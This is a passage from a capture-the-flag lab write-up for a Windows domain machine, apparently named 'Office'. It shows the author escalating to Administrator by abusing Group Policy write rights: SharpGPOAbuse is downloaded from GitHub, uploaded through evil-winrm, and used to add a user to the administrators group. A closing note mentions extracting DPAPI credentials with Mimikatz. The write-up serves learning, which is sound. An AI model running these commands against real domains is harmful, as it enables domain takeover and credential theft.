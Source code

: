 Hhogan is in the GPO Managers group that has Generic Write on Default Domain Policy which can compromise the whole domain. Using SharpGPOAbuse we can do literally anything to get a shell as Administrator but we will just add Hhogan to admin group reenter evil-winrm and get Administrator shell. Although I must say that here we're not limited to do only that we can do pretty much anything impresonating admin so add user to admin group not the only way.

```bash
wget https://github.com/byronkg/SharpGPOAbuse/releases/download/1.0/SharpGPOAbuse.exe
upload /home/perunchess/SharpGPOAbuse.exe
```

Then in evil-winrm:

```bash
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "PWNED" --Author Office\Administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators hhogan /add" --GPOName "DEFAULT DOMAIN CONTROLLERS POLICY"
gpupdate /force
```

![evil_result](images/Office31.png)

### Phase 14: Domain Compromise Confirmed

Then just reenter:

![evil_result](images/Office31.png)

We got a root flag!

### What I Learnt

DPAPI Credential Extraction:
    -I learned how to identify and extract credential blobs protected by DPAPI using Mimikatz. This included locating masterkey files, extracting keys via RPC, and then decrypting stored credentials like RDP, Wi-Fi, or browser passwords.

